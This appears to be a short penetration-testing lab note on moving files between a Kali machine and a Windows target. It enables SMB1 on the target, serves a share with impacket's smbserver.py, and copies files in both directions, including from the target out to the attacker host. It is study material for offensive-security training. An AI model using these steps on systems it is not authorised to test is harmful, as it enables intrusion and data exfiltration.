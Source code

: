 - In Target Machine, run powershell as Windows and type this


```
PS> Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All
```

- And restart the system
- Now in our local kali machine:

Type This:

```
──(root💀kali)-[~/Desktop/Windows Privilege Escalation for OSCP and Beyond/01 Introduction/tools]
└─# python /usr/share/doc/python3-impacket/examples/smbserver.py tools . 
```


Now:

To copy files from Kali to Windows:

```
copy \\192.168.1.11\tools\file.ext file.ext
```

To copy files from Windows to Kali:

```
copy file.ext \\192.168.1.11\tools\file.ext
```



